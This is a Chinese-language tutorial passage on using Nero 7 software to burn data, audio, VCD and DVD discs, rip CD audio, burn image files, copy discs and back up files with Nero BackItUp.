如果需要创建或修改光盘名称，可单击“标签”选项卡进行设定。最后单击“刻录”按钮进行刻录。在刻录最开始时，刻录机会将要刻录的数据转入系统和刻录机自身的缓存当中，缓存级别为满格时，刻录才会正式开始。DVD刻录对系统资源的消耗很大，所以在刻录前，最好关闭其他多余程序；在刻录过程中尽量不要执行另外的程序，以保证刻录顺利完成。当Nero进行刻录时，一定得等到Nero弹出一个提示刻录完毕的信息窗口才能确认刻录完成，并自动从刻录机中退出光盘，中途不要去按刻录机的退盘按钮。

如果开始时将刻录机选择为Image Recorder，则单击“刻录”按钮后会将添加的文件制作成一个NRG格式的光盘映像文件保存在硬盘上，以后可以用Daemon Tools或Nero ImageDrive之类的虚拟光驱工具来打开它。

### 3.用Nero Burning ROM刻录多重区段光盘

一张DVD刻录盘的容量有好几个GB，如果一次要刻录的资料只有几百MB就占用了一张DVD刻录盘，实在是太浪费了。好在Nero支持多次刻录（多重区段刻录），这样就可以有效地利用DVD盘的容量，下面就来讲解DVD和CD光盘的多重区段刻录方法。

#### （1）刻录多重区段DVD光盘

+   ★第一次刻录DVD时：按上面讲解的方法，启动Nero Burning ROM，添加要刻录的文件后，单击工具栏上的“刻录”按钮，进入到“刻录编译”界面。单击“多重区段”选项卡，选择“启动多重区段光盘”选项，注意此时“刻录”选项卡下的“结束光盘”选项是不可用的，也就是说此时无法封盘，如图17。设定好其他选项后，单击“刻录”按钮进行第一次刻录。



+   ★再次使用上次已刻录过的DVD盘刻录时：这时记得选择“继续多重区段光盘”，此时“刻录”选项卡下的“结束光盘”选项可用，如以后还要续刻，则不要选中“结束光盘”；如以后不再续刻，则建议选中“结束光盘”。

#### （2）刻录多重区段CD光盘

CD盘的多区段刻录方式略有不同。在第一次刻录时，进入到“刻录编译”阶段时，除了要在“多重区段”选项卡下选中“启动多重区段光盘”外，还要进入“刻录”选项卡，将“写入方式”设定为“轨道一次刻录”，再进行刻录，如图18。



再次使用上次的CD盘刻录时，启动Nero Burning ROM编辑要刻录文件完毕，进入到“刻录编译”界面，记得在“多重区段”选项卡下选中“继续多重区段光盘”。此时，“刻录”选项卡下的“写入方式”默认为“轨道一次刻录”且不可更改，此时“结束光盘”选项可用，如果今后还要续刻，则不要选中它；如果今后不再续刻，则建议选中。设置完毕后单击“刻录”按钮即可。

### 4.用Nero Express刻录数据光盘

在Nero Burning ROM主界面中，单击工具栏上的“使用Nero Express”按钮，即可启动Nero Express程序来进行刻录。当然你也可以在没打开Nero Burning ROM时通过单击“开始”→“程序”→Nero 7 Premium→“数据”→Nero Express菜单命令来启动Nero Express。

启动后，首先需要选择要刻录的光盘类型，这里以数据光盘为例，在左边窗格中单击“数据光盘”，在右边窗格单击“数据DVD”，即可启动Nero Express主程序界面。展开左边的选项面板，单击左上角的“切换到Nero Burning ROM”，还可以切换到Nero Burning ROM程序，这极大地方便了用户的操作习惯。

在Nero Express主程序中，单击选项面板中的“光盘信息”即可查看光盘容量。在这个选项面板中还可以进行其他一些高级操作，如复制音频CD轨道（即常说的抓取音轨）、抹除光盘、创建封面和标签等，如图19所示。



在Nero Express主界面的右侧显示了当前DVD刻录光盘的基本资料。单击“添加”按钮，可打开类似Windows资源管理器的窗口，在其中选择所需的文件夹或文件，然后单击“添加”按钮即可将要刻录的文件加入到光盘中。重复此操作，直到添加了所有文件。也可以从Windows资源管理器中直接将文件拖放到此窗口中。与Nero Burning ROM一样，Nero Express工作界面下边显示的刻度为光盘的容量，进度条为添加的文件的总体积。如果要在光盘中创建文件夹，可以单击右上方的“创建新的文件夹”按钮来创建并命名一个文件夹，还可以单击旁边的“打开或关闭树形视图”按钮来改变视图方式，以方便操作。

单击“下一步”按钮，弹出“最终刻录设置”窗口，如图20。与Nero Burning ROM不同，Nero Express不支持同时使用多台刻录机进行刻录。如果电脑安装了多台刻录机，要在“当前刻录机”中选择使用哪一台，然后输入光盘名称，并在左边的选项面板中设置写入速度。在右边的主窗口中选择刻录份数（默认为1份），另外还有“刻录后检验光盘数据”、“和“允许以后添加文件”两个选项。“刻录后检验光盘数据”的作用是将刻录完成的光盘里的数据读取出来再和源数据核对一遍，因为显示为刻录成功的光盘仍可能有问题，如所刻录的数据很重要，建议选中此选项。但刻录完成后验证盘片数据的时间较长，一般情况下没有必要选中此功能。“允许以后添加文件”选项默认是选中的，这样如果光盘上有剩余空间，以后就可以再次往该光盘上追加刻录资料。最后单击“刻录”按钮进行刻录。

提示：在“当前刻录机”下拉列表中，还可以选择 Image Recorder（镜像刻录机），利用它可以制作光盘镜像文件。

刻录完成后，将出现一个包含如下各种选项的对话框。选择所需的选项，或单击“关闭”按钮以终止 Nero Express 7。

-   ★ 再次刻录同一项目：将打开刻录对话框，然后你可以使用同一刻录机或新刻录机再次刻录该项目。
-   ★ 新建项目：将打开一个用于新编辑的选择对话框。然后就可以创建并刻录新项目了。
-   ★ 封面设计程序：将打开 Nero CoverDesigner 2。使用该程序，你可以创建和打印标签、镶嵌图案和小册子。如果安装了与 LightScribe（光雕技术）兼容的刻录机，还可以使用 Nero CoverDesigner 2 打印 LightScribe 标签。
-   ★ 保存项目：将打开“保存”对话框。如果要再次访问刻录的项目，请将其保存。

可以看出，Nero Express 和 Nero Burning ROM 在操作方法上基本类似，只不过 Nero Express 更简单、易用，更适合初级用户上手。

##### 5. 用Nero Burning ROM刻录音乐光盘

使用 Nero 还可以很方便地制作音乐 CD，它可以用任何普通 CD 播放机来播放。下面就介绍具体操作方法。

（1）在刻录机中插入 CD-R 盘片（不建议使用 CD-RW 来制作音乐 CD，因为有很多播放设备不能读取这种光盘），启动 Nero StartSmart。单击“音频”下的“制作音频光盘”，启动 Nero Burning ROM。

（2）在“文件浏览窗口”中找到要刻录的音乐文件（包括 WAV、WAVE、MP3、MP4 以及 DAT 等格式的音频文件）并添加到刻录窗口中。Nero 具有独有的文件侦测功能，如果你误将数据文件拖曳至刻录窗口中，Nero 会自动检测到此文件的资料格式不正确，因此就不会将这个档案加入音乐光盘片中。Nero 的转换功能非常强大，当你添加音乐文件时，它已经对音乐文件进行了检测与转换，以便以 Audio CD 的 CDA 格式来进行刻录。工作界面下边显示的刻度为音乐 CD 的播放时间，进度条为添加的音乐文件的总播放时间。前面说过，一张 700MB 的 CD-R 最多能刻录约 80 分钟的 CD 音乐，大概 15 到 20 首歌左右，所选文件的播放长度不要超过红线。添加音乐文件后，单击“播放”按钮可以预览音乐文件，如图 21。Nero 的强大之处不仅仅体现在音频格式的转换上，它还自带了音频编辑软件——在“刻录窗口”选中一首歌，单击“刻录窗口”左侧窗格的“编辑”按钮便能启动 Nero 的音频编辑软件。




在对音频进行整理、编辑之后，单击工具栏中的“刻录”按钮，将会打开“刻录编译”窗口并展开“刻录”选项卡。在刻录音乐 CD 时，“写入方式”默认为“光盘一次刻录”，这里务必不要更改它。在“光盘一次刻录”模式下，所有轨道一次刻录到光盘，其间激光不关闭，这种格式最适合于使用家庭和车载立体声设备来播放的音频 CD；如果选择“轨道一次刻录”，则可能导致音乐 CD 各轨道间出现杂音。为了保证音质，不产生“爆音”及失真，刻录音乐 CD 的写入速度越慢越好，建议在 4X 到 8X 之间。单击“音乐光盘”选项卡，在“一般”下有两个选项，可根据具体情况进行选择：

-   ★ “正常化所有音频文件”：自动调整音量使所有歌曲在音量上保持一致，如所选音乐文件音量差别较大，可选中，但有可能影响音质；
-   ★ “音频之间无停顿”：可以让音乐一首一首地连续播放，Nero 默认有 2 秒的时间间隔。

如果要对 CD 进行标注，可以在“CD 文本”和“其他信息”下进行输入专辑标题、艺术家等信息，在较新型号的 CD 播放机中播放 CD 时，这些信息可以显示出来。其余选项使用默认值即可，最后单击“刻录”按钮执行刻录。

除了最常见的音乐 CD（Audio CD）外，Nero Burning ROM 还可以制作其他多种类型的音乐光盘。启动 Nero StartSmart，选择光盘类型为 CD/DVD，可以看到 Nero Burning ROM 可以创建的音乐光盘类型，如图 22。



使用以下方法也可以创建各种音乐光盘。在“开始”菜单中单击“程序”→ Nero 7 Premium →“音频”→ Nero Burning ROM 命令启动 Nero Burning ROM 程序，或者在已经启动 Nero Burning ROM 程序后，单击工具栏上的“新建”按钮（或使用“文件”→“新建”命令），打开“新编辑”对话框，如图 23 所示。此时光盘类型默认为 CD，左边窗格中光盘图标上带有音符符号的都是 Nero 可以创建的音乐光盘类型，其中：音乐光盘就是上面制作的音乐 CD；混合模式 CD 的第一条轨道是存放数据的，后面的都是音轨，多用于制作游戏光盘，在进行游戏的同时播放背景音乐，既不占用 CPU 的资源又有高质素的表现；CD Extra 则与混合模式 CD 刚好相反，前面的是音轨，最后一条轨道是数据，可放入普通的 CD 播放机中播放，但放入电脑中就会出现最后的数据，常见于一些电子乐队的 CD，将 CD 放进电脑后就会有他们个人的自我介绍、MTV 等“额外收获”。

**CD 类型对比表**

| 类型 | 说明 |
| :--- | :--- |
| 音乐光盘 | 最常见的音乐 CD 格式。 |
| 混合模式 | 第一轨为数据，后为音轨，常用于游戏。 |
| CD Extra | 先音轨后数据，兼容 CD 机与电脑。 |



另外，在“开始”菜单中单击“程序”→ Nero 7 Premium →“音频”→ Nero Express 命令，可以启动 Nero Express 来制作音乐 CD。在左边窗格选择“音乐”，在右边窗格单击要制作音乐光盘类型，接下来的操作及选项设置都与 Nero Burning ROM 类似，这里就不再赘述了。

##### 6. 用Nero抓取CD音轨

音乐 CD 的格式非常特殊，我们无法通过普通的复制和粘贴命令来拷贝 CD 音乐到硬盘上，为此很多人不得不四处寻找专门的 CD 抓轨软件。其实，通过 Nero 就可以很轻松地把 CD 音乐复制到硬盘上，而且 Nero 的抓取速度非常快，甚至比专门的音轨抓取工具还要好。具体操作方法如下：

（1）将音乐 CD 放入光驱（刻录机和普通光驱皆可）后，然后启动 Nero StartSmart，选择光盘类型为 CD，再单击“音频”下的“将音频 CD 转换为音频文件”。接下来弹出“选择驱动器”对话框，选择音乐 CD 所在驱动器。此后 Nero 会提示你是否要联网下载音乐 CD 的专辑名、曲目和艺术家等信息，以便在抓取音轨时生成有意义的文件名，一般单击“否”即可。

说明：如果单击“是”，Nero 会联网进行下载；如果没有找到此音乐 CD 的相关信息，则会弹出“Nero 标题和光盘数据库”对话框，可以单击“创建新光盘条目”，手动输入专辑名和曲目信息等，如图 24。“创建新光盘条目”结束后，Nero 提示用户是否要将编辑的数据提交到 Internet 数据库，单击“否”。再单击“已选光盘”按钮，Nero 会提示是否在本机建立一个数据库，单击“否”即可。



（2）以上操作完毕后，界面回到“保存光盘轨道”对话框，如图 25，Nero 会自动读取该 CD 的所有音轨。在“轨道清单”列表框中选择需要抓取的音轨，默认情况下，Nero 会选中 CD 中的全部音轨，如果你只需要其中的某一首，也可以单独选择。



（3）在“输出格式”下拉列表框中选择需要生成的音频文件类型，Nero 可以把抓取的音频保存成 wav、ac3、aif、mp3/mp3PRO、wma、mp4、ogg 等格式。如果要获得最好的音质，可以选择 wav 格式，不过文件体积很大。一般我们会保存成文件比较小的 mp3 格式。选择 mp3 格式时，你还可以单击右边的“设置”按钮设定编码质量、常量比特率、变量比特率等，还可以选择是否“启用 mp3PRO”。

提示：mp3Pro 是 mp3 编码格式的升级版本，在保持相同的音质条件下可以把文件容量压缩到原有 mp3 格式的一半大小。而且可以在基本不改变文件大小的情况下改善原先的 mp3 音乐音质。它能够在用较低的比特率压缩音频文件的情况下，最大程度地保持压缩前的音质。经过 mp3PRO 压缩的文件，扩展名仍旧是 .mp3，可以在老的 mp3 播放器上播放。不过，要欣赏 mp3Pro 的好效果，还需要使用支持 mp3PRO 的播放器。

（4）在“路径”下拉列表框中设置保存输出文件的路径；在“文件命名方式”下拉列表框中设置输出文件的命名方式。此外，单击“选项”按钮还能展开高级选项，进行进一步设定，其中：“自动生成存贮音频音轨的 M3U 播放表”表示抓取完成相应的音频文件（MP3 文件）后创建播放文件列表“*.M3U”；“读取速度”项中提供的是音轨抓取速度，要获得最好的音质，则读取速度越低越好，当然转换的时间也就越长；有时候转换好的音乐会有杂音，这可能是由于所谓的音频抖动导致，建议选中“定位校正”，可以避免此问题；同时建议选中“消除静音”，因为音乐 CD 上每条音轨在结尾处都有 2 秒钟的间隙，选中此选项，可避免抓取的音乐在开始时出现静音。最后单击“转到”按钮，执行抓取操作即可。

##### 7. 用Nero Burning ROM和Nero Vision制作VCD光盘

Nero Burning ROM 一共可以制作四类视频光盘：VCD 视频光盘、SVCD 超级视频光盘、miniDVD 和 DVD 视频光盘，它们采用的视频文件都是 MPG 格式的。我们首先对这些视频文件构造的基础知识简要介绍一下，为后面的学习打下良好基础。

MPG 格式的文件是行业界开发早，使用时间长，并且早已认定为视频标准的视频文件，随着影碟机的大量普及，影碟也走进千家万户，VCD、SVCD、miniDVD、DVD 所采用的视频文件自然都是 MPG 格式的文件。MPG 文件包括 MPEG-1、MPEG-2、MPEG-3 和 MPEG-4，除了 MPEG-3 文件由于体积过大比较少见之外，其余的三种都比较常见。比如常见的 VCD，其中的视频文件类型就属于 MPEG-1 编码的，SVCD、miniDVD 和 DVD 都属于 MPEG-2 编码的。网络流行的视频格式中，DIVX 编码文件和 XVID 文件是属于 MPEG-4 编码的。概念一定要分清，之所以说 VCD 视频文件属于 MPEG-1 类型，并不表示 MPEG-1 文件都是 VCD 文件，只是说 VCD 标准文件只是 MPEG-1 文件中的一种。SVCD、miniDVD 和 DVD 也一样，它们只是 MPEG-2 文件中的一种标准，而并非所有的 MPEG-2 编码文件都是 SVCD、miniDVD 或者 DVD 标准。

在这四种视频光盘中，刻录 VCD、SVCD、miniDVD 用的都是普通 CD-R 刻录光盘，DVD 视频光盘则当然是使用 DVD 刻录光盘，四种光盘类型的特点分别如下：

-   - ★ VCD 视频光盘。如果文件已经是 MPEG-1 格式，或者要将其他视频格式转换为 MPEG-1 格式，你就可以制作 VCD。Nero 刻录的 VCD 既可在电脑里播放，也可以在普通家用的 VCD 播放机和 DVD 播放机里放映，在电视里欣赏。VCD 光盘每分钟占用 9.8MB 光盘容量，视频分辨率为 352×288（PAL 制式），就是说 98MB 空间可以刻 10 分钟视频内容，可以按这个比例计算自己使用的光盘允许刻进的时间长度。
-   ★ SVCD 超级视频光盘。如果文件已经是 MPEG-2 格式，或者要将其他视频格式转换为 MPEG-2 格式，你就可以制作 SVCD。Nero 刻录的视频/图片的 SVCD 光盘可以在绝大多数的 SVCD 和 DVD 播放机上播放。解码和编码 MPEG-2 格式必需 DVD 视频插件，可以在 Nero AG 网站 (http://www.nero.com/) 上购买。SVCD 光盘的视频分辨率为 352×576（PAL 制式），比 VCD 提高了一倍的线数，横向并没有加强，视频质量要优于 VCD，但容量占用大一倍，同容量时的播放时间比 VCD 短一半。
-   ★ miniDVD 视频光盘。miniDVD 采用 DVD 编码，视频分辨率为 720×576（PAL 制式），虽然画面清晰，但因容量巨大，700MB 的 CD-R 光盘只能放上大约 18 分钟内容就满了，因此使用普通 CD-R 制作出的 DVD 也就只能称为 miniDVD 了。miniDVD 可以在电脑的 DVD 光驱上播放，但不能保证在所有的 DVD 播放机中都能播放。Nero Burning ROM 和 Nero Express 还不能直接支持 DVD 格式的 MPEG-2 文件。制作 miniDVD 时，只能把 Nero 支持的文件如 BUP、IFO、VOB 等文件拖到 DVD 视频文件夹 VIDEO_TS 里。如果你要将 MPG 视频文件刻录为 DVD 视频光盘，则必须配合使用 Nero Vision 4 等 DVD 制作工具。
-   ★ DVD 视频光盘。与 miniDVD 一样，使用 Nero Burning ROM 和 Nero Express，你可以将硬盘上的 DVD 视频文件（BUP、IFO 和 VOB 文件）刻录为高品质的 DVD 视频光盘。Nero 刻录的 DVD 视频光盘可以在家用 DVD 播放机中放映。如果你要将视频文件刻录为 DVD 视频光盘，就必须使用 Nero Vision 4 等 DVD 制作工具。

下面讲解用 Nero 刻录 VCD 视频光盘的方法。

（1）在刻录机中插入 CD-R 光盘（不建议使用 CD-RW 光盘，因为某些老型号的 VCD 播放机还不支持 CD-RW 盘），启动 Nero StartSmart，选择盘片类型为 CD，单击“照片和视频”下的“制作 VCD”，将会启动 Nero Vision 视频处理程序。也可以通过“开始”→“程序”→ Nero 7 Premium →“照片和视频”→ Nero Vision 来启动 Nero Vision。

说明：如果安装的是 Nero 7 Essentials，它不包括 Nero Vision 程序，会直接调用 Nero Express 来刻录 VCD 视频光盘。



（2）在 Nero Vision 窗口中，会弹出一个包含帮助信息的提示对话框，如图 26，单击“结束”按钮可以将其关闭。如果是新手的话，建议选择显示提示的方式为“始终”，如果用户操作比较熟练，则可以选择显示提示的方式为“绝对不要”。

（3）根据 CD-R 盘片的容量，在右下角选择相应的 CD-R 盘的容量，650MB 或 700MB 分别对应 74 分钟或 80 分钟。在“你想做什么？”下单击“添加视频文件”，Nero 将自动显示所有可供选择的文件类型，选择视频文件添加到 VCD。注意添加视频文件的总体积不要超过 CD-R 的容量。如果添加了多个视频文件，在“目录”窗口下将显示轨道编号和菜单标题。建议事先把视频文件的文件名修改成该节目的标题，这样就可以直接应用为轨道标题，当然也可以对其进行重命名。轨道编号就是 VCD 的播放顺序，如果不满意，可以单击左边的“向上”或“向下”按钮来调整播放顺序，也可以用鼠标上下拖动来调整。不需要的也可以通过鼠标右键菜单删除。如果要将某些视频合并，可以配合 Ctrl 键选中它们，然后单击左边的“合并曲目”按钮。

（4）创建影片章节。此步骤非必需步骤，可以跳过。“章节”代表影片的段落，每部影片都含有至少一个章节，创建章节就是将影片进行合理的分割。章节的好处是可以使用户在播放影片时直接跳到某个特定章节，不用花费时间来快进或快退。创建方法是：选择某视频文件，然后单击“创建章节”命令，打开“创建章节”窗口，共有两种创建章节的方法：

-   ★ 手工创建：在创建章节之前，一个影片只有一个乐章。在进度条上单击添加章节标记，然后单击“添加章节”按钮，添加 1 个章节，就会创建出 2 个乐章；添加 2 个章节，就会创建出 3 个乐章，以此类推。如果要删除章节，先单击选中某章节标记，再单击“删除章节”按钮，则相关乐章会自动合并。也可以单击“删除所有章节”按钮将章节全部删除。
-   ★ 自动创建：单击“自动检测章节”按钮，程序将会自动检测并在每个新场景处自动设置章节标记，单击“生成”按钮，将会自动生成多个章节。

章节创建完毕后，单击“下一个”按钮回到主界面。



（5）编辑视频文件。此步骤非必需步骤，可以跳过，如果添加的视频文件过大，CD-R 容量不够，则必须进行剪辑。选中某个已添加的视频文件，单击“编辑电影”，或者直接双击此视频文件，即可进入视频编辑界面，如图 27。在 Nero Vision 中剪辑视频是非常简单愉快的，在左上视频窗口下的播放进度条上拖动向右的箭头选择剪辑的起始点，再拖动向左的箭头选择结束点，中间的部分就是刻录的内容了，而网格状的部分则是暂时不被处理的。在视频编辑窗口右上区域中的视图中，包含可在影片中使用的媒体文件、效果和过渡效果。在播放进度条和下方的“视频轨道”进度条上单击，定位到需要处理的视频位置，通过将相关条目拖放到下方的“文本”、“效果”以及“视频轨道”等窗口中来插入条目。单击视频窗口下的播放按钮，可预览效果。编辑完成后，单击“下一个”按钮返回主界面。



（6）单击“下一个”按钮，为 VCD 光盘制作菜单。是否创建菜单要根据具体情况决定。如果刻录只有一段视频的 VCD 影碟，就没有必要弄菜单了，因为没有什么需要选择的，只要在右上角的“使用的菜单类型”下选择“不创建菜单”即可。倘若刻录存在多个视频段落或创建过章节的 VCD 影碟，就可以根据自己的喜好决定是否创建 VCD 菜单。创建菜单的方法是：在“页眉”中输入菜单的主标题，单击“下一个”即可。

如果要进一步编辑菜单，可单击“编辑菜单”按钮，进入“编辑菜单”窗口，如图 28。在其中可以设定菜单的版式、背景、按钮样式、字体等，各命令选项的含义分别如下。

-   ★ 配置：选择菜单的版式。
-   ★ 背景：可以选择用某个图片作为背景图像，或使用某种颜色作为背景。使用图片作为背景，你还可以对背景图像进行一些效果处理。
-   ★ 按钮：对菜单中的所有按钮的框架、文本、编号进行设定。
-   ★ 字体：设置菜单文字的字体和格式。
-   ★ 页眉/页脚文字：添加和编辑页眉/页脚文字。例如，图 28 中“晚会录像”是页眉，“2007年10月”是页脚。
-   ★ 阴影：为按钮和文字设置阴影，包括阴影颜色、光源方向、不透明度和距离等。
-   ★ 自动：选择菜单动画的长度，并定义哪个菜单条目应自动播放。

（7）单击“下一个”按钮，返回制作 VCD 菜单的主界面，再单击“下一个”按钮，进入 VCD 光盘的预览界面。在这一步，可以使用鼠标和虚拟遥控器来模拟播放 VCD 光盘，以检查 VCD 光盘在 VCD/DVD 播放机上的表现。

（8）单击“下一个”按钮，设置刻录选项。在“刻录”下选择刻录机；在“卷名”下输入光盘名称；在“刻录设置”下设定刻录速度等选项，因为 VCD 视频光盘是不经过校验直接读取的，故应该以尽可能低的写入速度来刻录，以保证最好的播放质量。作者个人建议使用 4X 或 10X 的写入速度来进行。最后单击“刻录”按钮执行刻录。

有时在进入“设置刻录选项”界面时，会弹出如图 29 所示的提示信息窗口，这是什么意思呢？这里就不得不提到视频制式。

在刻录VCD前，我们一定要注意制式的问题。在主界面中单击“更多”按钮展开高级选项，单击“视频选项”按钮，可以设置视频的制式。目前彩色电视机共有三种制式，最常见的是NTSC和PAL制式。美国、加拿大和日本等一些国家使用NTSC电视制式，一部分欧洲国家如德国、英国和中国大陆使用PAL电视制式，需要注意，不同制式的视频互相并不兼容，如果在PAL制式的电视上播放NTSC的视频，画面将变成黑白，NTSC制式的也是一样。

我国的标准制式采用的是PAL，所以一般情况下，都要在视频选项上选择PAL制，这也是Nero中文版制作VCD时的默认设置。当然一些新型号的DVD/VCD播放机和电视支持多制式，PAL和NTSC两种制式都能支持。当你刻录VCD时，如果添加的视频素材是NTSC制式的，而Nero中文版默认制式为PAL，就会弹出上面的提示信息。这时，如果你的设备支持多制式，可以选择将设置更改为NTSC，可以获得更好的视频质量。

如果你不知道要使用哪一种制式，可以在国家清单中选择你的国家，Nero Vision会自动设定正确的视频制式。

##### 8. 用Nero Burning ROM刻录DVD光盘

miniDVD和DVD的制作流程不同于VCD和SVCD，即使是符合DVD标准的MPEG-2文件，也需要使用Nero Vision 4才能创建miniDVD或DVD视频光盘，而不能像VCD和SVCD那样，满足了标准就能直接刻录而不用再进行转换。使用Nero Vision制作DVD的过程与制作VCD的很类似，这里就不再赘述了。

如果直接使用Nero Burning ROM或Nero Express 7，只能从已经具有正确的格式和文件结构的文件（BUP、IFO和VOB文件）中创建DVD视频光盘。具体方法是：启动Nero StartSmart，将光盘类型选择为DVD，单击“照片和视频”下的“刻录DVD视频文件”项，启动Nero Burning ROM，找到准备好的DVD文件，选中以后用鼠标拖动到左方VIDEO_TS目录中，最后刻录即可。刻录miniDVD的方法完全一样，只不过使用的是CD光盘而已。

对于VCD标准的MPG文件，刻录成VCD光盘之后，在光盘中的后缀名是DAT，这是VCD光盘结构，DAT和在硬盘里面保存的VCD标准的MPG文件是等效的，实质上文件类型并没有改变。SVCD标准的MPG文件，刻录成SVCD光盘之后，文件的后缀名不变，仍然是MPG。DVD标准的MPG文件，刻录成miniDVD或DVD光盘之后，文件的后缀名变为VOB，同时含有BUP和IFO文件。

##### 9. 用Nero Burning ROM刻录映像文件

随着BT、电驴、Vagaa等P2P软件流行，用户有更多的机会获得CUE、ISO、CCD、BWT、CDI、MDS、BIN等格式的光盘映像（又叫镜像）文件。我们经常会遇到刻录映像文件的需求，比如将Windows XP系统安装的映像文件刻录成光盘，以方便安装操作系统；又如将网上下载的PS2游戏的映像文件刻录成DVD，以便在PS2游戏机上玩游戏。将文件制作成光盘镜像文件后，再写入到刻录光盘中，还可以减少刻录光盘的错误率。下面就来讲解用Nero刻录映像文件的方法：

在刻录机中插入空白光盘（CD或DVD刻录盘皆可，根据映像文件的容量而定），启动Nero StartSmart，单击“备份”下的“将映像刻录到光盘上”，启动Nero Burning ROM并弹出“打开”对话框，选择要刻录的映像文件，在“刻录编译”的“刻录”选项卡下，设定写入速度、刻录份数等选项，最后单击“刻录”按钮即可。如果刻录的是系统安装盘，建议选择较低的刻录速度，以保证良好的刻盘质量。使用Nero Express刻录映像文件的操作基本一致，这里就不再赘述了。

##### 10. 用Nero Burning ROM复制光盘

光盘属于易耗品，一张光盘使用久了，难免会出现老化、刮花等现象，从而导致不能正常读取光盘上的数据。如果想永久保存某张光盘，防止丢失和损坏，最好方法就是备份。DVD刻录机则既可以复制CD光盘，也可以复制DVD光盘。不过，要提醒读者一点的是，如果要是光盘本身有加密措施，那就无法用Nero进行复制。如果你的电脑上既有光驱，又有刻录机；就可以轻松地进行光盘复制。复制光盘的操作方法是：

- （1）首先将要刻录的源盘（母盘，应选择质量尽可能好的母盘）插入光驱中，然后再插入一张空白刻录盘到刻录机中。启动Nero StartSmart，根据情况所复制光盘的类型，对应单击“备份”下的“复制光盘”或“复制DVD”（下面以选择“复制光盘”，也就是复制CD光盘为例来讲解），打开Nero Burning ROM。
- （2）在弹出的“新编译”对话框中，单击“读取选项”选项卡，在“配置文件”下根据母盘的类型进行正确选择，包括：数据CD、音乐CD、VCD、混合模式或CD EXTRA、卡拉OK光盘。选择类型的不同，下面的选项设置也会不同，一般使用默认设置即可。
- （3）单击打开“复制选项”选项卡，如图30。在“来源”下选择源盘所在的光驱。“读取速度”选项默认设置为“最大”，这是为了保证光驱能够快速有效地传送数据给刻录机，避免出现“飞盘”。在“一般”下有一个“直接对烧”选项，它在至少连接了两个光盘驱动器（一个用于读取光盘的光驱或刻录机，一个用于写入的刻录机）时才可用。选中“直接对烧”后，Nero在复制光盘时会直接将源盘中的文件直接写入到刻录盘中，而不使用任何硬盘空间。如果你希望赶快开始刻录，或是只复制一张光盘，或者硬盘上的空间不足，请选择此选项。当然，使用“直接对烧”的条件比较苛刻：如果源盘质量不好（如划痕清晰可见），源盘所在光驱读取数据的速度不够快（读取速度必须至少等同于写入速度，才能保证不出现“飞盘”），刻录机不具备“防烧坏保护”技术，或者是刻录盘的质量不过关，都容易造成刻录失败。

如果这里不选中“直接对烧”，在复制光盘时，将首先在硬盘上创建一个映像文件，然后再刻录该文件到空白光盘中，这样复制光盘的质量和操作可靠性都将大大增强。在需要将源盘复制多张时，此方法会节约整体时间，因为从硬盘读取数据的速度比从光驱中读取快得多。为得到最好的音质，复制音频CD时也最好采取这种方式。

- （4）单击“映像文件”选项卡，在其中可以设定保存映像文件的路径，以及是否在刻录完成后删除映像文件，还可以看见各个硬盘分区的可用空间，如图31。单击“测试速度”按钮，可以测试硬盘各分区的速度。用户应该选择一个可用空间较大、速度最快的分区来保存映像文件。

注意：如果在“复制选项”选项卡中选择了“直接对烧”，则复制光盘时不会在硬盘上生成映像文件，此时“映像文件”选项卡下的相关选项将不可用。
- （5）打开“刻录”选项卡，在其中设置写入速度、刻录份数等。为了保证复制光盘的成功率和复制质量，应该将写入速度设得低一些。另外，如刻录机支持，应确认选中“防烧坏保护”选项。最后单击“复制”按钮执行光盘复制操作。

以上讲解的光盘复制方法针对的是既有光驱又有刻录机的用户，如果你没有光驱，只有一台刻录机，还能进行光盘复制吗？答案是肯定的。你可以按如下方法进行操作：

先将源盘插入到刻录机，启动Nero StartSmart。在“备份”下单击“复制光盘”或“复制DVD”，启动Nero Burning ROM并打开“新编辑”窗口中，进入“复制选项”选项卡，在“来源”下设置“驱动器”为刻录机，进入“读取选项”选项卡，在“配置文件”下选择母盘类型。最后单击“复制”按钮，Nero会把源盘制作作为一个映像文件。制作映像完毕，刻录机会自动弹出源盘，并会提示你插入空白光盘以写入映像文件，完成光盘复制。

这时，有读者可能会问：这么复杂干嘛，直接把源盘的文件拷贝到硬盘，然后再把这些文件全部刻录下来不就行了？这种想当然的做法是不正确的，光盘里也有很多隐藏文件，上面的方法可能会使刻录盘失去光盘引导信息，以致无法正常运行。

用Nero Express复制光盘的操作与Nero Burning ROM类似。在“开始”菜单中单击“程序”→Nero 7 Premium→“数据”→Nero Express命令，在弹出的窗口左侧窗格选择“映像、项目、复制”，在右边单击“复制整张CD”或“整张DVD”，启动Nero Express，如图32。

如果你既有光驱，又有刻录机，则设定“源驱动器”为源盘所在的光驱，目标驱动器为刻录机，设定刻录份数后单击“复制”按钮即可。这里有一个“快速复制”，它的作用与Nero Burning ROM中的“直接对烧”一样。

如果你没有光驱，只有一台刻录机，则设定“源驱动器”为刻录机，将“目标驱动器”设定为Image Recorder，单击“复制”按钮，Nero会把源盘制作作为映像文件保存在硬盘上。此后，将母盘更换为空白光盘，用刻录映像文件的方法，将刚刚制作的映像文件写入到空白光盘中，即可实现光盘复制的目的。

##### 11. 用Nero Burning ROM备份/还原数据

说到备份软件，大家一般首先会想Ghost或者是Windows系统自带的备份软件，但它们都是擅长在本地硬盘上进行备份，在光盘上备份的功能较弱。大多数用户只有一块硬盘，备份文件和原始文件在同一介质上是很不安全的。在DVD刻录机普及的今天，DVD光盘备份是一种比较切实可行的备份方案。下面来介绍Nero配备的BackItUp备份/还原程序，它是和Nero刻录配套的工具，使用非常方便。

- （1）启动Nero StartSmart，单击“备份”下的“备份文件”，启动Nero BackItUp，默认使用“文件备份”模式，如图33。

提示：如果你的电脑基础较差，可以单击左边窗格的“向导”，使用向导模式，按照向导的提示逐步完成备份操作。

- （2）在树形列表中选择要备份的文件或者文件夹。Nero BackItUp可以只备份指定类型的文件，用户可以在右下角的窗格编辑过滤器，来自动对要备份的文件进行过滤。例如，只想备份图像文件，可以单击界面右侧的“+（添加过滤器）”号按钮，打开“选择文件过滤器”窗口，将左边列表中的“所有图像”和“排除在所有备份之外的文件”添加到右边窗格的“已选过滤器”中，并单击“确定”按钮，如图34。以后选择备份文件/文件夹时，Nero BackItUp会自动过滤，只备份图像文件。如果这些过滤器不能满足要求，你还可以编辑规则，创建新的过滤器。
- （3）选择完备份文件后，单击“开始文件备份”按钮，进入“备份设置”界面。将“目标”设定为“刻录机”。接下来选择“备份类型”。Nero BackItUp提供了以下四种“备份类型”：
    - 完全备份：当前选择的文件和文件夹全部备份。
